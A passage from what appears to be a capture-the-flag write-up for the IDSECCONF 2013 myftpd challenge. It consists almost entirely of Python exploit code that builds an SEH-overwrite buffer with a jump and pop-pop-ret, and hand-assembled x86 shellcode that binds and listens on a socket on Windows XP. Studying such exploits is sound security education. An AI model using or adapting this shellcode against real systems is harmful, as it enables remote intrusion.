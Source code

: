 ``` python

  command  = ""
  command += "Z" * sc_offset
  command += shellcode[0:sc_len]
  command += "B" * (nseh_offset - len(command))
  command += "\xEB\xAA\x90\x90" # jmp back to sc_offset start
  command += ppr
  command += "E" * 100

  return command

def windows_xp(target):
  max_size = 365

  offsets = {
    'SC': 266,
    'EIP': 294,
    'ESP': 302,
  }

  block1  = ""
  # Adjust the stack to prevent it from breaking things in our shellcode
  block1 += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
  # Get the address of `socket` into EBX
  block1 += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
  block1 += "\xC1\xEB\x08"                       # SHR EBX, 0x8
  # set up the stack for the call to `socket`
  block1 += "\xB0\x06"                           # MOV AL, 0x6
  block1 += "\x50"                               # PUSH EAX
  block1 += "\xB0\x01"                           # MOV AL, 0x1
  block1 += "\x50"                               # PUSH EAX
  block1 += "\x40"                               # INC EAX
  block1 += "\x50"                               # PUSH EAX
  # invoke the call to `socket`
  block1 += "\xFF\xD3"                           # CALL EBX
  # save our socket handle
  block1 += "\x89\xC7"                           # MOV EDI, EAX
  # Find sockaddr
  block1 += "\x89\xD9"                           # MOV ECX, EBX
  block1 += "\xB5\x74"                           # MOV CH, 0x74
  # adjust the port number by bumping it up one to 22
  block1 += "\xFE\x41\x03"                       # INC BYTE [ECX+3]
  # adjust the call pointer to reference `bind`
  block1 += "\xB3\x54"                           # MOV BL, 0x54
  # prepare the parameters on the stack for the `bind` call
  block1 += "\x6A\x10"                           # PUSH 0x10
  block1 += "\x51"                               # PUSH ECX
  block1 += "\x50"                               # PUSH EAX
  # invoke the call to `bind`
  block1 += "\xFF\xD3"                           # CALL EBX
  # adjust the call pointer to reference `listen`
  block1 += "\xB3\x5C"                           # MOV BL, 0x5C
  # prepare the parameters on the stack for the `listen` call
  block1 += "\x6A\x7F"                           # PUSH 0x7F
  block1 += "\x57"                               # PUSH EDI
  # invoke the call to `listen`
  block1 += "\xFF\xD3"                           # CALL EBX
  # adjust the call pointer to reference `accept`
  block1 += "\xB3\x24"                           # MOV BL, 0x24
  # prepare the parameters on the stack for the `accept` call
  block1 += "\x57"                               # PUSH EDI
  # invoke the call to `accept`
  block1 += "\xFF\xD3"                           # CALL EBX
```

  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization